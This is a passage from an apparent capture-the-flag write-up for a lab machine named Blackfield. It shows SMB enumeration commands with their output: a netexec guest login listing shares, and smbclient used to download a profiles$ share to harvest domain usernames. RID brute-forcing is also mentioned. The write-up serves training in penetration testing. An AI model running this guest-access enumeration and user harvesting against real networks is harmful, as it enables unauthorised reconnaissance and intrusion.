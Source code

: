 We can enumerate more on the port 445.

There is more stuff we can do here like, checking for null sessions, guest sessions, getting users, getting shares, rib brute and many more

### Checking for guest account and shares with read privs

```bash
nxc smb  10.10.10.192 -u 'guest' -p ''  --shares 
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False) 
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\guest: 
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL                          Logon server share 
```

## Getting the users list

```bash
smbclient //10.10.10.192/profiles$            

Password for [WORKGROUP\root]:

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  ABarteski                           D        0  Wed Jun  3 12:47:11 2020
	...

                5102079 blocks of size 4096. 1695873 blocks available
smb: \> mget *
```

we can get a list of users this way and then list the directory locally and the direct the output to users

We could also do a rib brute since we have guest account and get a users of list that way too. The list we get from rid brute is a little bit diffrent as it has all the current domain users and these are just normal/local accouts which we got through profiles$

But anyway both of them would work in this case.

